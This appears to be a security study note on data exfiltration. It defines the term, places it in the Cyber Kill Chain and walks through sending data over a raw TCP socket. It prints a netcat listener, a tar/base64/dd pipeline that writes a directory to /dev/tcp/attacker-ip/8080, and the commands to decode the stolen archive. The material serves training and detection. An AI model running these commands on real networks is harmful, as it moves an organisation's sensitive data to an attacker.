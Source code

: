 # Data Exfiltration

### Definition

Data Exfiltration is the process of taking an unauthorized copy of sensitive data and moving it from the inside of an organization's network to the outside. It is important to note that Data Exfiltration is a post-compromised process where a threat actor has already gained access to a network and performed various activities to get hands on sensitive data. Data Exfiltration often happens at the last stage of the Cyber Kill Chain model, Actions on Objectives.

### Data Exfiltration Techniques

#### TCP Sockets

**Definition**

Using the TCP socket is one of the data exfiltration techniques that an attacker may use in a non-secured environment where they know there are no network-based security products. If we are in a well-secured environment, then this kind of exfiltration is not recommended. This exfiltration type is easy to detect because we rely on non-standard protocols.

**Method**

On the attacker machine we prepare a listener and store the incoming exfiltrated data under the tmp directory

```
nc -lvp 8080 > /tmp/sensitive-data
```

On the compromised machine we issue the below on the exfiltrated data

```
tar zcf - sensitive-data/ | base64 | dd conv=ebcdic > /dev/tcp/attacker-ip/8080
```

1. We used the tar command to create an archive file with the zcf arguments of the content of the secret directory.
2. The z is for using gzip to compress the selected folder, the c is for creating a new archive, and the f is for using an archive file.
3. We then passed the created tar file to the base64 command for converting it to base64 representation.
4. Then, we passed the result of the base64 command to create and copy a backup file with the dd command using EBCDIC encoding data.
5. Finally, we redirect the dd command's output to transfer it using the TCP socket on the specified IP and port, which in this case, port 8080.

Now once we receive data on the attacher machine we issue the below to convert it back to ascii format and unzip it

```
dd conv=ascii if=/tmp/sensitive-data |base64 -d > sensitive-data.tar

tar xvf sensitive-data.tar
```
